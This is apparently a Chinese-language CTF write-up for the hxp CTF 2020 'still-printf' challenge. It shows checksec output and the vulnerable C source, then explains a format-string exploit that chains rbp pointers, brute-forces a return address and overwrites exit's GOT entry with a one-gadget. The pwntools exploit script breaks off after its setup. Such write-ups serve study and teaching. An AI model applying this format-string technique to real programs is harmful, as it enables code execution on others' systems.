 - `grep -ir pagesize /proc/1/smaps` 用來看 page size，基本上為 4 KB



### still-printf

```
// file
still-printf: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f2cefe2bcfe57d69bf54ad1fce3e0ad5f9969980, for GNU/Linux 3.2.0, stripped

// checksec
[*] '/home/u1f383/tmp/hxpctf_2020/still-printf-d20188c31d06a593/still-printf/still-printf'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

程式邏輯很簡單，存在 fmt 漏洞，不過執行後會馬上 `exit()` :

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
	char buf[0x30]; // 48
	setbuf(stdout, NULL);
	fgets(buf, sizeof(buf), stdin);
	printf(buf);
	exit(0);
}
```

分別在 `15$` 以及 `41$` 有 rbp chain 可以使用，但是 [vfprintf 原始碼](https://elixir.bootlin.com/glibc/glibc-2.28/source/stdio-common/vfprintf.c#L1337)上記錄，當第一次遇到 `$` 時代表 fmt 中含有 positional parameter，會去 LABEL `do_positional` 執行 `printf_positional()`，並且將後續 `XX$` 對應到的 value 存到 `args_value` 做處理，因此一個 format string 中沒辦法透過 positional parameter 來完成 rbp chain，因此第一個 chain gadget `15$` 必須使用當前 fmt 對應的 parameter 完成。

而因為 `exit()` 的關係，因此 fmt 要蓋的 return address 為 `printf()` 的 return address，不過因為 stack 的位置受 ASLR 影響，因此必須猜 0x1000 次 (1.5 bytes random)，才能改到正確的 `41$`，而 `41$` 只需要透過 partial overwrite 就能把 return address 蓋成 main 中 `fgets` 的位置，因此不需要撞機率。

在第二次 `fgets`，就透過 partial overwrite exit_got 成 one gadget 即可，並且因為 payload 大小只能到 0x2f，因此用 `$hn` + `$h` 會剛好符合字數限制，以下為 exploit:

```python
#!/usr/bin/python3

from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

# r = process("./S", env={"LD_PRELOAD": "./libc-2.28.so"})
# gdb.attach(r, """
# dir /usr/src/glibc/glibc-2.28:/usr/src/glibc/glibc-2.28/stdio-common
# # b *printf_positional
# # b *vfprintf
# # b *vfprintf+7215
# # b *printf+189
# # c
# """)


while True:
```